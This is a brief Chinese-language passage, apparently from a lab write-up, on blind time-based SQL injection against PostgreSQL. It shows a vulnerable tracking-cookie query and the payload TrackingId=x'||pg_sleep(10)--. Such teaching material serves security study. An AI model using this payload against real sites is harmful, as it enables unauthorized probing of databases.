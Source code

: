 由于SQL语句无回现，但可以根据执行要的时间来判断

其中||是连接运算符
SQL语句是这样的
```SQL
SELECT tracking-id FROM tracking-table 
	WHERE trackingid = 'x'||(SELECT pg_sleep(10))--';
```
```SQL
TrackingId=x'||pg_sleep(10)--
```